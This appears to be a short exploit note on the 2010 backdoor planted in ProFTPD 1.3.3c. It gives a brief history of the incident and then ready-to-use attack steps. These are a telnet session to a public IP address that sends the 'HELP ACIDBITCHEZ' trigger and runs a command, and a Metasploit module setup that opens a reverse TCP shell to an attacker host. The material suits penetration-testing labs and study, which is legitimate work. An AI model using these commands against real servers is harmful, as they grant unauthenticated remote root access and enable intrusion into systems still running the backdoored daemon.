 # proftpd-1.3.3c-backdoor

## Theory

On Sunday, the 28th of November 2010 around 20:00 UTC the main distribution server of the ProFTPD project was compromised. The attackers most likely used an unpatched security issue in the FTP daemon to gain access to the server and used their privileges to replace the source files for ProFTPD 1.3.3c with a version which contained a backdoor. The unauthorized modification of the source code was noticed by Daniel Austin and relayed to the ProFTPD project by Jeroen Geilman on Wednesday, December 1 and fixed shortly afterwards.

Anyone who downloaded ProFTPD 1.3.3c from one of the official mirrors from 2010-11-28 to 2010-12-02 will most likely be affected by the problem. The backdoor introduced by the attackers allows unauthenticated users remote root access to systems which run the maliciously modified version of the ProFTPD daemon.



***

## Practical

### Telnet

```
telnet 163.172.229.5 21

HELP ACIDBITCHEZ

id;
```

### Metasploit

```
use exploit/unix/ftp/proftpd_133c_backdoor

set PAYLOAD generic/shell_reverse_tcp

set LHOST 192.168.100.18

set RHOST 192.168.100.20

exploit
```



***

## REFERENCES

* [https://www.aldeid.com/wiki/Exploits/proftpd-1.3.3c-backdoor](https://www.aldeid.com/wiki/Exploits/proftpd-1.3.3c-backdoor)
* [https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor\_Command\_Execution\_Automated\_Script](https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor\_Command\_Execution\_Automated\_Script)
* [https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd\_133c\_backdoor/](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd\_133c\_backdoor/)

